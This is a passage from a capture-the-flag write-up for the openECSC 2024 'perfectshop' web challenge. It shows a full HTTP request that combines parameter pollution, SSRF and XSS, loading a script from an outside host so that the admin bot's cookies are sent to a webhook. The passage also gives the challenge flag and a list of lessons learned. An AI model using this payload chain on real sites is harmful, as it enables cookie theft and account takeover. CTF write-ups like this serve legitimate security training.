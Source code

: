This script navigates to the Webhook site and appends all cookies to the URL as parameters. Finally, I launch an HTTP server on port 80 with the following command:

```python
sudo python -m http.server 80
``` 

Everything is ready now, all that's left is to submit a report. For my ultimate payload, I used this HTTP request, combining Parameter Pollution, SSRF, and XSS into one powerful attack:

```http
POST /report?=/admin HTTP/1.1
Host: perfectshop.challs.open.ecsc2024.it
Content-Length: 141
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://perfectshop.challs.open.ecsc2024.it
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://perfectshop.challs.open.ecsc2024.it/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close



id=4&id=/../../search?q=<script src=//nain.at/x.js>/admin&message=dfg
```

> Note: I also had to append a URL parameter to the `/report` path with `/admin`, as otherwise my XSS would have been sanitized. This is because `/report` isn't whitelisted either.

With all these steps completed, we can view the result on Webhook and confirm that we successfully retrieved the flag `openECSC{4in't_s0_p3rfect_aft3r_4ll}`.

# Lessons learned

- **Critical analysis of webpage components**: The challenge highlighted the importance of critically analyzing webpage components, such as search bars and admin interfaces, for potential vulnerabilities. Suspicious elements, like the search bar, can often serve as entry points for attacks like Cross-Site Scripting (XSS) or SQL Injection.
- **Exploration of whitelisting and blacklisting mechanisms**: The challenge underscored the significance of exploring whitelisting and blacklisting mechanisms within the application. Identifying how these mechanisms operate, as demonstrated by the `Perfect Express Sanitizer`, provided insights into potential bypass techniques.
- **Creative exploitation of Parameter Pollution**: Discovering and exploiting the Parameter Pollution vulnerability demonstrated the importance of creative thinking and experimentation. Manipulating input parameters to confuse the server and trigger unexpected behavior proved to be a powerful attack vector. Sometimes, it just doesn't suffice to only read the source code to understand how the webserver works.
- **Resourcefulness and collaboration**: Seeking assistance from peers and leveraging external resources, such as domain access from a fellow student, highlighted the value of resourcefulness and collaboration in overcoming challenges. 
- **Attention to detail in payload crafting**: Crafting payloads with attention to detail, such as ensuring XSS payloads remain under the 50-character limit, emphasized the importance of precision in payload creation.
